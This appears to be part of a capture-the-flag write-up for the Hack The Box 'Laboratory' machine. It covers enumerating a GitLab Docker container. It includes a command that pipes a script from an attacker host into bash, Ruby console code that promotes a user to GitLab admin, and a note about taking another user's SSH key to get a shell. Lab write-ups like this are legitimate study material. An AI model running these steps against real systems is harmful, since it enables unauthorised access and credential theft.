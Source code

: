 # 15-Gitlab server enumeration

This is a docker container

```bash
git@git:~/gitlab-rails/working$ ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Jul  2  2020 .
drwxr-xr-x   1 root root 4096 Jul  2  2020 ..
-rwxr-xr-x   1 root root    0 Jul  2  2020 .dockerenv
-rw-r--r--   1 root root  157 Feb 24  2020 RELEASE
drwxr-xr-x   2 root root 4096 Feb 24  2020 assets
drwxr-xr-x   1 root root 4096 Feb 24  2020 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr 25 01:56 dev
drwxr-xr-x   1 root root 4096 Jul  2  2020 etc
drwxr-xr-x   2 root root 4096 Apr 12  2016 home
drwxr-xr-x   1 root root 4096 Sep 13  2015 lib
drwxr-xr-x   2 root root 4096 Feb 12  2020 lib64
drwxr-xr-x   2 root root 4096 Feb 12  2020 media
drwxr-xr-x   2 root root 4096 Feb 12  2020 mnt
drwxr-xr-x   1 root root 4096 Feb 24  2020 opt
dr-xr-xr-x 328 root root    0 Apr 25 01:56 proc
drwx------   1 root root 4096 Jul 17  2020 root
drwxr-xr-x   1 root root 4096 Apr 25 01:56 run
drwxr-xr-x   1 root root 4096 Feb 21  2020 sbin
drwxr-xr-x   2 root root 4096 Feb 12  2020 srv
dr-xr-xr-x  13 root root    0 Apr 25 01:56 sys
drwxrwxrwt   1 root root 4096 Apr 25 08:47 tmp
drwxr-xr-x   1 root root 4096 Feb 12  2020 usr
drwxr-xr-x   1 root root 4096 Feb 12  2020 var
```

We use `deepce` [script](https://github.com/stealthcopter/deepce) to enumerate the docker container

```bash
curl http://10.10.14.35:9002/deepce.sh | bash
```

but nothing interesting shown up

## Get root on the container

We should try to manually enumerate the gitlab application. Since we literally owner of the gitlab process, we can make an admin user, and enumerate the git server from that.

Open the console from inside the container

```bash
gitlab-rails console
```

### Switch our account into admin privilege

From the console

```ruby
u = User.find_by_username('wayne')
u.admin = true
u.save
```

![](https://github.com/quangtien0101/HTB_Laboratory/tree/61be6c501b6c846246628c926fa3d7dcd963be87/Laboratory/Screen-shot/Get%20admin%20on%20gitlab.png)

Examine `dexter` repo, we find his ssh key ![](https://github.com/quangtien0101/HTB_Laboratory/tree/61be6c501b6c846246628c926fa3d7dcd963be87/Laboratory/Screen-shot/Dexter%20ssh%20key.png)

And we got the shell on the machine itself ![](https://github.com/quangtien0101/HTB_Laboratory/tree/61be6c501b6c846246628c926fa3d7dcd963be87/Laboratory/Screen-shot/SSH%20as%20dexter.png)


